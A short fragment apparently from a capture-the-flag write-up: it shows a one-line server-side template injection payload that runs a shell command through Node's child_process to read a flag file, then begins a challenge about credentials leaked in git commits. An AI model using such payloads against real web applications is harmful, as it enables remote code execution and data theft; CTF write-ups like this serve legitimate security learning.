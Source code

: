 Exploit :

```
<% global.process.mainModule.require('child_process').execSync('cat flag.txt') %>
```

# Web


## Unhackable Andy


### Leaked credentials in git commits

This dude claims he is unhackable

![](/assets/obsidian/cf96af5a2fd438fa399599b4ef39252f.png){:target='_blank'}

![](/assets/obsidian/1829cbb0c27598c421b926f69054ef95.png){:target='_blank'}

> https://github.com/UnhackableAndy
